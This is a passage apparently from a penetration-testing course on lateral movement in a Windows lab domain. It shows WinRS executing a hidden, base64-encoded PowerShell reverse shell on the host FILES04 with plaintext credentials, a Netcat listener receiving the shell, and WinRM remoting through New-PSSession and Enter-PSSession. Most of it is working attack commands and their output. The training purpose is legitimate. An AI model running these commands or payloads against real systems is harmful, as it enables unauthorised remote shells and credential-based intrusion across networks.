 The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse shell we wrote earlier.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

> Listing 11 - Running the reverse-shell payload through WinRS

Once we run the above command after having set up a Netcat listener, we are welcomed with a reverse-shell from FILE04.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```

> Listing 12 - Veriyfing the origin of the WinRS reverse-shell

PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2), which can be invoked via the *New-PSSession* cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

> Listing 13 - Establishing a PowerShell Remote Session via WinRM

To interact with the session ID 1 we created, we can issue the **Enter-PSSession** cmdlet followed by the session ID.

```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
